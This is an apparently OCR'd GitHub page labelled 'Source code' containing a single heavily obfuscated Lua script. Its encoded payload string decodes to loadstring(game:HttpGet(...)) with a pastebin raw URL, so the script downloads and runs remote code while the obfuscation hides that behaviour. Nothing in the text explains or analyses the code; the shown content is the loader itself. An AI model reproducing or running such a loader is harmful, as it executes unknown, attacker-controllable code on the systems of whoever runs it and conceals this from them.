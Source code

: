 local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==79) then v19=v0(v3(v30,1,1));return "";else local v82=0;local v83;while true do if (v82==0) then v83=v2(v0(v30,16));if v19 then local v100=v5(v83,v19);v19=nil;return v100;else return v83;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v84=0 -0 ;local v85;while true do if (v84==(0 -0)) then v85=(v31/((3 -1)^(v32-(2 -1))))%((621 -(555 + 64))^(((v33-(932 -(857 + (1139 -(68 + 997))))) -(v32-(569 -(330 + 37 + (286 -85))))) + (928 -(214 + 713)))) ;return v85-(v85%((1271 -(226 + 1044)) + 0)) ;end end else local v86=(1 + 1)^(v32-(878 -(282 + 595))) ;return (((v31%(v86 + v86))>=v86) and 1) or (1637 -(1523 + 114)) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=0 -(0 -0) ;local v36;local v37;while true do if (v35==(118 -((58 -26) + 85))) then return (v37 * (251 + 5)) + v36 ;end if (v35==0) then v36,v37=v1(v16,v18,v18 + 1 + 1 );v18=v18 + ((1309 -(87 + 263)) -(892 + 65)) ;v35=(182 -(67 + 113)) -1 ;end end end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + 3 + 0 );v18=v18 + 4 ;return (v41 * (41190819 -24413603)) + (v40 * 65536) + (v39 * (189 + 67)) + v38 ;end local function v24() local v42=0 -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(952 -(802 + 150))) then v43=v23();v44=v23();v42=1 + 0 ;end if (v42==(4 -1)) then if (v47==(438 -(145 + 293))) then if (v46==(430 -(44 + 386))) then return v48 * (0 -0) ;else v47=1 -(1913 -(1789 + 124)) ;v45=0 + 0 ;end elseif (v47==((2256 -(745 + 21)) + 192 + 365)) then return ((v46==(997 -(915 + 82))) and (v48 * ((2 -1)/(0 -0)))) or (v48 * NaN) ;end return v8(v48,v47-((1639 -1043) + 427) ) * (v45 + (v46/(((7 -5) + 0)^(68 -16)))) ;end if (v42==(1189 -(1069 + 118))) then v47=v20(v44,47 -26 ,67 -36 );v48=((v20(v44,113 -81 )==(860 -(814 + 45))) and -(2 -(1 + 0))) or ((4 -3) + 0) ;v42=1 + 0 + 2 ;end if (v42==(3 -2)) then v45=1 -0 ;v46=(v20(v44,1 + 0 ,811 -((2115 -(760 + 987)) + 423) ) * ((6 -4)^(50 -(10 + 8)))) + v43 ;v42=7 -5 ;end end end local function v25(v49) local v50=0;local v51;local v52;while true do if (v50==(1057 -((788 -(376 + 325)) + 968))) then v52={};for v89=4 -3 , #v51 do v52[v89]=v2(v1(v3(v51,v89,v89)));end v50=3;end if (v50==(0 + 0)) then v51=nil;if not v49 then v49=v23();if (v49==(0 -0)) then return "";end end v50=1414 -((731 -284) + (2972 -2006)) ;end if (v50==(8 -5)) then return v6(v52);end if (v50==1) then v51=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;v50=1819 -(1703 + 114) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 0;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do local v67=(function() return 0 + 0 ;end)();while true do if (v67~=1) then else if (2==v53) then v58[ #"nil"]=(function() return v21();end)();for v101= #">",v23() do local v102=(function() return v21();end)();if (v20(v102, #":", #".")==(0 -0)) then local v104=(function() return 0 -0 ;end)();local v105=(function() return;end)();local v106=(function() return;end)();local v107=(function() return;end)();while true do if (v104~=(1385 -(746 + 638))) then else v107=(function() return {v22(),v22(),nil,nil};end)();if (v105==0) then local v162=(function() return 0;end)();local v163=(function() return;end)();while true do if (v162==(0 -0)) then v163=(function() return 0;end)();while true do if (v163~=0) then else v107[ #"-19"]=(function() return v22();end)();v107[ #".com"]=(function() return v22();end)();break;end end break;end end elseif (v105== #"[") then v107[ #"xnx"]=(function() return v23();end)();elseif (v105==(343 -(218 + 123))) then v107[ #"gha"]=(function() return v23() -((1583 -(1535 + 46))^16) ;end)();elseif (v105== #"gha") then local v182=(function() return 0 + 0 ;end)();local v183=(function() return;end)();while true do if (v182==(0 + 0)) then v183=(function() return 0;end)();while true do if (0==v183) then v107[ #"xnx"]=(function() return v23() -((562 -(306 + 254))^(1 + 15)) ;end)();v107[ #"0313"]=(function() return v22();end)();break;end end break;end end end v104=(function() return 3 -1 ;end)();end if (v104~=2) then else if (v20(v106, #",", #".")== #".") then v107[2]=(function() return v60[v107[2]];end)();end if (v20(v106,2,2)== #":") then v107[ #"91("]=(function() return v60[v107[ #"nil"]];end)();end v104=(function() return 3;end)();end if ((1470 -(899 + 568))==v104) then if (v20(v106, #"-19", #"-19")== #"\\") then v107[ #"asd1"]=(function() return v60[v107[ #"0836"]];end)();end v55[v101]=(function() return v107;end)();break;end if (v104==0) then local v146=(function() return 0;end)();local v147=(function() return;end)();while true do if (v146==(0 + 0)) then v147=(function() return 0 -0 ;end)();while true do if (v147==(603 -(268 + 335))) then local v177=(function() return 290 -(60 + 230) ;end)();while true do if (v177~=(573 -(426 + 146))) then else v147=(function() return 1 + 0 ;end)();break;end if (v177~=0) then else v105=(function() return v20(v102,2, #"gha");end)();v106=(function() return v20(v102, #"http",6);end)();v177=(function() return 1457 -(282 + 1174) ;end)();end end end if (v147~=1) then else v104=(function() return 1;end)();break;end end break;end end end end end end for v103= #"|",v23() do v56,v103,v28=(function() return v54(v56,v103,v28);end)();end return v58;end break;end if (v67==0) then if ((812 -(569 + 242))==v53) then local v98=(function() return 0;end)();while true do if (0==v98) then local v108=(function() return 0 -0 ;end)();while true do if (v108~=1) then else v98=(function() return 1;end)();break;end if (v108~=(0 + 0)) then else v58=(function() return {v55,v56,nil,v57};end)();v59=(function() return v23();end)();v108=(function() return 1252 -(721 + 530) ;end)();end end end if (v98~=2) then else v53=(function() return 1273 -(945 + 326) ;end)();break;end if ((2 -1)==v98) then local v109=(function() return 0;end)();while true do if (1==v109) then v98=(function() return 2 + 0 ;end)();break;end if (v109==0) then v60=(function() return {};end)();for v150= #",",v59 do local v151=(function() return 0;end)();local v152=(function() return;end)();local v153=(function() return;end)();local v154=(function() return;end)();while true do if (v151==(700 -(271 + 429))) then v152=(function() return 0 + 0 ;end)();v153=(function() return nil;end)();v151=(function() return 1;end)();end if (v151==(1501 -(1408 + 92))) then v154=(function() return nil;end)();while true do if (v152==(1087 -(461 + 625))) then if (v153== #"<") then v154=(function() return v21()~=0 ;end)();elseif (v153==2) then v154=(function() return v24();end)();elseif (v153== #"gha") then v154=(function() return v25();end)();end v60[v150]=(function() return v154;end)();break;end if (v152==(1288 -(993 + 295))) then local v179=(function() return 0;end)();while true do if (v179==1) then v152=(function() return 1 + 0 ;end)();break;end if (v179~=0) then else v153=(function() return v21();end)();v154=(function() return nil;end)();v179=(function() return 1172 -(418 + 753) ;end)();end end end end break;end end end v109=(function() return 1;end)();end end end end end if (v53==(0 + 0)) then local v99=(function() return 0;end)();while true do if (2~=v99) then else v53=(function() return 1;end)();break;end if (v99==0) then v54=(function() return function(v110,v111,v112) local v113=(function() return 0;end)();local v114=(function() return;end)();while true do if (v113==(0 + 0)) then v114=(function() return 0 + 0 ;end)();while true do if (0~=v114) then else local v173=(function() return 0 + 0 ;end)();while true do if (v173~=(529 -(406 + 123))) then else v110[v111-#" " ]=(function() return v112();end)();return v110,v111,v112;end end end end break;end end end;end)();v55=(function() return {};end)();v99=(function() return 1770 -(1749 + 20) ;end)();end if ((1 + 0)==v99) then v56=(function() return {};end)();v57=(function() return {};end)();v99=(function() return 1324 -(1249 + 73) ;end)();end end end v67=(function() return 1 + 0 ;end)();end end end end local function v29(v61,v62,v63) local v64=v61[(2475 -(797 + 532)) -(466 + 679) ];local v65=v61[4 -2 ];local v66=v61[3];return function(...) local v68=v64;local v69=v65;local v70=v66;local v71=v27;local v72=1;local v73= -(2 -1);local v74={};local v75={...};local v76=v12("#",...) -(1 + 0) ;local v77={};local v78={};for v87=0 + 0 ,v76 do if (v87>=v70) then v74[v87-v70 ]=v75[v87 + 1 ];else v78[v87]=v75[v87 + (2 -1) ];end end local v79=(v76-v70) + 1 ;local v80;local v81;while true do local v88=(0 + 0) -0 ;while true do if (v88==(114 -(2 + 2 + (258 -148)))) then v80=v68[v72];v81=v80[585 -(57 + 527) ];v88=1428 -(41 + 1386) ;end if ((3946>=3743) and (v88==(104 -(17 + 86)))) then if (v81<=(3 + 0)) then if (v81<=(1 -0)) then if (v81>0) then do return;end else local v115;local v116,v117;local v118;local v119;v78[v80[5 -3 ]]=v63[v80[3]];v72=v72 + (167 -(122 + 44)) ;v80=v68[v72];v78[v80[2 -0 ]]=v63[v80[9 -6 ]];v72=v72 + 1 + 0 ;v80=v68[v72];v119=v80[(1203 -(373 + 829)) + 1 ];v118=v78[v80[5 -2 ]];v78[v119 + (66 -(30 + (766 -(476 + 255)))) ]=v118;v78[v119]=v118[v80[3 + 1 ]];v72=v72 + (1258 -(1043 + 214)) ;v80=v68[v72];v78[v80[7 -5 ]]=v80[1215 -(323 + 889) ];v72=v72 + ((1132 -(369 + 761)) -(1 + 0)) ;v80=v68[v72];v78[v80[(1056 -474) -(361 + 219) ]]=v80[323 -(53 + 267) ]~=0 ;v72=v72 + 1 + 0 ;v80=v68[v72];v119=v80[415 -(15 + 398) ];v116,v117=v71(v78[v119](v13(v78,v119 + (983 -(18 + 964)) ,v80[(20 -9) -8 ])));v73=(v117 + v119) -(1 + 0) ;v115=0 + (238 -(64 + 174)) ;for v148=v119,v73 do local v149=850 -(20 + 830) ;while true do if ((v149==(0 + 0)) or (1335>=3306)) then v115=v115 + (127 -(17 + 99 + 10)) ;v78[v148]=v116[v115];break;end end end v72=v72 + 1 + 0 ;v80=v68[v72];v119=v80[2];v78[v119]=v78[v119](v13(v78,v119 + ((1093 -354) -(542 + 196)) ,v73));v72=v72 + (1 -(336 -(144 + 192))) ;v80=v68[v72];v78[v80[1 + 1 ]]();v72=v72 + 1 + 0 ;v80=v68[v72];do return;end end elseif (v81>(1 + 1)) then v78[v80[4 -2 ]]=v80[3];else v78[v80[4 -2 ]]();end elseif ((4844>2253) and (v81<=(1556 -(1126 + 425)))) then if ((452==452) and (v81==(409 -(118 + 287)))) then v78[v80[2]]=v80[3]~=(0 -0) ;else local v138=v80[(1339 -(42 + 174)) -(118 + 1003) ];local v139=v78[v80[8 -5 ]];v78[v138 + (378 -(142 + 235)) ]=v139;v78[v138]=v139[v80[18 -14 ]];end elseif (v81<=(2 + 4)) then local v143=977 -(553 + 424) ;local v144;while true do if (v143==(0 -0)) then v144=v80[2];v78[v144]=v78[v144](v13(v78,v144 + 1 + 0 ,v73));break;end end elseif ((v81>(7 + 0)) or (4557<2087)) then local v155=0;local v156;local v157;local v158;local v159;while true do if (v155==(2 + 0)) then for v174=v156,v73 do local v175=0;while true do if (v175==(0 + 0)) then v159=v159 + 1 + 0 + 0 ;v78[v174]=v157[v159];break;end end end break;end if (v155==0) then v156=v80[2];v157,v158=v71(v78[v156](v13(v78,v156 + (2 -1) ,v80[7 -4 ])));v155=2 -(1 + 0) ;end if ((3874==3874) and (v155==(1 + 0))) then v73=(v158 + v156) -(4 -3) ;v159=0;v155=(321 + 434) -(239 + 514) ;end end else v78[v80[2]]=v63[v80[3]];end v72=v72 + 1 + 0 ;break;end end end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O747047657403213O00682O7470733A2O2F706173746562696E2E636F6D2F7261772F5256476A6432734400093O00124O00013O00122O000100023O00202O00010001000300122O000300046O000400016O000100049O0000026O000100016O00017O00",v9(),...);

